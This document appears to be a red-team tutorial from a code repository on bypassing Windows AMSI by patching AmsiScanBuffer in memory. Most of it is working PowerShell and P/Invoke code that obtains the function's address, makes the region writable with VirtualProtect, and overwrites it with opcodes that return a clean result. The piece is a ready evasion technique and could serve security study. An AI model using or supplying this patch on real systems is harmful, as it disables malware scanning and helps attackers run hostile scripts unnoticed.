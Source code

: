 # Patching AMSI

AMSI is primarily instrumented and loaded from `amsi.dll`. This `dll` can be abused and forced to point to a specific 
response code. The `AmsiScanBuffer` function provides the hooks and functionality necessary to access the 
pointer/buffer for the response code.

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the `PowerShell` process at startup. It will 
scan a "buffer" of suspected code and report it to `amsi.dll` to determine the response. This function can be 
controlled to overwrite the buffer with a clean return code.

At a high-level AMSI patching can be broken up into four steps:

* Obtain handle of `amsi.dll`
* Get process address of `AmsiScanBuffer`
* Modify memory protections of `AmsiScanBuffer`
* Write opcodes to `AmsiScanBuffer`

## Code

Load GetProcAddress, GetModuleHandle, and VirtualProtect from kernel32 using p/invoke:

```text
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

Load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will 
allow the functions to be called.

```text
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```
    
Identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process 
address of `AmsiScanBuffer` using `GetProcAddress`:

```text
$handle = [Win32.Kernel32]::GetModuleHandle(
    'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
    $handle, // Handle of amsi.dll
    'AmsiScanBuffer' // API call to obtain
); 
```

Modify the memory protection of the `AmsiScanBuffer` process region. Specify parameters and the buffer address for 
`VirtualProtect`:

```text
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
);
```

Specify what to overwrite the buffer with:

```text
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
);
```

## Resources

* [The Rise and Fall of AMSI - Black Hat Briefings](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
* [Rasta Mouse: Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)
* [rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)
* [Marshal.Copy Method](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0)
* [Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke)
* [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
* [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
* [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

